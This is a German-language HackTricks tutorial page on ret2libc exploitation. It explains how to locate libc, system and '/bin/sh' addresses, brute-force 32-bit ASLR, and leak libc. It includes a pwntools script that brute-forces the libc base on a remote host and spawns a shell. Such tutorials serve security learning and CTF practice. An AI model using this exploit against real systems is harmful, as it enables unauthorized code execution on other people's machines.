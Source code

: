 # Ret2lib

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories senden.

</details>

## **Grundlegende Informationen**

Die Essenz von **Ret2Libc** besteht darin, den Ausführungsfluss eines anfälligen Programms auf eine Funktion in einer gemeinsam genutzten Bibliothek (z. B. **system**, **execve**, **strcpy**) umzuleiten, anstatt ausführbaren Shellcode auf dem Stapel des Angreifers auszuführen. Der Angreifer erstellt eine Nutzlast, die die Rückkehradresse auf dem Stapel so ändert, dass sie auf die gewünschte Bibliotheksfunktion zeigt, und gleichzeitig dafür sorgt, dass alle erforderlichen Argumente gemäß der Aufrufkonvention korrekt eingerichtet sind.

### **Beispiel-Schritte (vereinfacht)**

* Ermitteln Sie die Adresse der zu aufrufenden Funktion (z. B. system) und den auszuführenden Befehl (z. B. /bin/sh)
* Generieren Sie eine ROP-Kette, um das erste Argument zu übergeben, das auf den Befehlsstring zeigt, und den Ausführungsfluss zur Funktion zu lenken

## Adressen finden

* Angenommen, die verwendete `libc` ist diejenige des aktuellen Rechners, können Sie herausfinden, wo sie im Speicher geladen wird mit:

{% code overflow="wrap" %}
```bash
ldd /path/to/executable | grep libc.so.6 #Address (if ASLR, then this change every time)
```
{% endcode %}

Wenn Sie überprüfen möchten, ob ASLR die Adresse von libc ändert, können Sie Folgendes tun:
```bash
for i in `seq 0 20`; do ldd ./<bin> | grep libc; done
```
* Wenn die verwendete libc bekannt ist, ist es auch möglich, den Offset zur `system`-Funktion mit folgendem Befehl zu finden:
```bash
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
```
* Wenn die verwendete libc bekannt ist, ist es auch möglich, den Offset zur Zeichenkette `/bin/sh`-Funktion mit folgendem Befehl zu finden:
```bash
strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
```
### Verwendung von gdb-peda / GEF

Wenn die verwendete libc bekannt ist, ist es auch möglich, Peda oder GEF zu verwenden, um die Adresse der Funktion **system**, der Funktion **exit** und des Strings **`/bin/sh`** zu erhalten:
```bash
p system
p exit
find "/bin/sh"
```
### Verwendung von /proc/\<PID>/maps

Wenn der Prozess jedes Mal, wenn Sie mit ihm sprechen, **Kinder erstellt** (Netzwerkserver), versuchen Sie, diese Datei zu **lesen** (wahrscheinlich müssen Sie root sein).

Hier können Sie **genau herausfinden, wo die libc im Prozess geladen ist** und **wo sie für jedes Kind des Prozesses geladen wird**.

![](<../../../.gitbook/assets/image (850).png>)

In diesem Fall wird sie bei **0xb75dc000** geladen (Dies wird die Basisadresse der libc sein)

## Unbekannte libc

Es könnte möglich sein, dass Sie **nicht wissen, welche libc die Binärdatei lädt** (weil sie sich auf einem Server befinden könnte, auf den Sie keinen Zugriff haben). In diesem Fall könnten Sie die Schwachstelle ausnutzen, um **einige Adressen preiszugeben und herauszufinden, welche libc**-Bibliothek verwendet wird:

{% content-ref url="rop-leaking-libc-address/" %}
[rop-leaking-libc-address](rop-leaking-libc-address/)
{% endcontent-ref %}

Und Sie können eine pwntools-Vorlage dafür finden unter:

{% content-ref url="rop-leaking-libc-address/rop-leaking-libc-template.md" %}
[rop-leaking-libc-template.md](rop-leaking-libc-address/rop-leaking-libc-template.md)
{% endcontent-ref %}

### Bekannte libc mit 2 Offsets

Überprüfen Sie die Seite [https://libc.blukat.me/](https://libc.blukat.me/) und verwenden Sie **ein paar Adressen** von Funktionen innerhalb der libc, um die **verwendete Version herauszufinden**.

## Umgehung von ASLR in 32 Bit

Diese Brute-Force-Angriffe sind **nur für 32-Bit-Systeme nützlich**.

* Wenn der Exploit lokal ist, können Sie versuchen, die Basisadresse der libc per Brute-Force anzugreifen (nützlich für 32-Bit-Systeme):
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
* Wenn Sie einen Remote-Server angreifen, könnten Sie versuchen, die Adresse der `libc`-Funktion `usleep` per **Brute-Force** anzugreifen und dabei 10 als Argument zu übergeben. Wenn der Server zu einem bestimmten Zeitpunkt **10 Sekunden länger braucht, um zu antworten**, haben Sie die Adresse dieser Funktion gefunden.

## Ein Gadget

Führen Sie eine Shell aus, indem Sie einfach zu **einer** bestimmten **Adresse** in libc springen:

{% content-ref url="one-gadget.md" %}
[one-gadget.md](one-gadget.md)
{% endcontent-ref %}

## x86 Ret2lib Code-Beispiel

In diesem Beispiel ist das ASLR-Brute-Force in den Code integriert und die verwundbare Binärdatei befindet sich auf einem Remote-Server:
```python
from pwn import *

c = remote('192.168.85.181',20002)
c.recvline()

for off in range(0xb7000000, 0xb8000000, 0x1000):
p = ""
p += p32(off + 0x0003cb20) #system
p += "CCCC" #GARBAGE, could be address of exit()
p += p32(off + 0x001388da) #/bin/sh
payload = 'A'*0x20010 + p
c.send(payload)
c.interactive()
```
## x64 Ret2lib Code Beispiel

Überprüfen Sie das Beispiel unter:

{% content-ref url="../" %}
[..](../)
{% endcontent-ref %}

## Ret-into-printf (oder puts)

Dies ermöglicht das **Leaken von Informationen aus dem Prozess**, indem `printf`/`puts` mit spezifischen Daten als Argument aufgerufen wird.

## Ret2printf

Dies bedeutet im Wesentlichen, einen **Ret2lib zu missbrauchen, um ihn in eine `printf`-Formatstrings-Verwundbarkeit zu verwandeln**, indem der `ret2lib` verwendet wird, um printf mit den Werten aufzurufen, um sie auszunutzen (klingt nutzlos, ist aber möglich):

{% content-ref url="../../format-strings/" %}
[format-strings](../../format-strings/)
{% endcontent-ref %}

## Weitere Beispiele & Referenzen

* [https://guyinatuxedo.github.io/08-bof\_dynamic/csaw19\_babyboi/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csaw19\_babyboi/index.html)
* Ret2lib, gegeben ein Leak zur Adresse einer Funktion in libc, unter Verwendung eines Einzelgadgets
* [https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html)
* 64 Bit, ASLR aktiviert, aber kein PIE, der erste Schritt besteht darin, einen Überlauf zu füllen, bis das Byte 0x00 des Canary erreicht ist, um dann puts aufzurufen und es zu leaken. Mit dem Canary wird ein ROP-Gadget erstellt, um puts aufzurufen und die Adresse von puts aus dem GOT zu leaken, und dann ein ROP-Gadget, um `system('/bin/sh')` aufzurufen.
* [https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html)
* 64 Bit, ASLR aktiviert, kein Canary, Stapelüberlauf in main von einer Unterfunktion. ROP-Gadget, um puts aufzurufen und die Adresse von puts aus dem GOT zu leaken, und dann ein Einzelgadget aufrufen.
* [https://guyinatuxedo.github.io/08-bof\_dynamic/hs19\_storytime/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/hs19\_storytime/index.html)
* 64 Bit, kein PIE, kein Canary, kein relro, nx. Verwendet die write-Funktion, um die Adresse von write (libc) zu leaken und ruft ein Einzelgadget auf.
* [https://guyinatuxedo.github.io/14-ret\_2\_system/asis17\_marymorton/index.html](https://guyinatuxedo.github.io/14-ret\_2\_system/asis17\_marymorton/index.html)
* Verwendet einen Formatstring, um den Canary vom Stapel zu leaken, und einen Pufferüberlauf, um in system zu springen (es ist im GOT) mit der Adresse von `/bin/sh`.
* [https://guyinatuxedo.github.io/14-ret\_2\_system/tu\_guestbook/index.html](https://guyinatuxedo.github.io/14-ret\_2\_system/tu\_guestbook/index.html)
* 32 Bit, kein relro, kein Canary, nx, pie. Missbraucht eine schlechte Indizierung, um Adressen von libc und Heap vom Stapel zu leaken. Missbraucht den Pufferüberlauf, um einen ret2lib aufzurufen, der `system('/bin/sh')` aufruft (die Heap-Adresse wird benötigt, um eine Überprüfung zu umgehen).
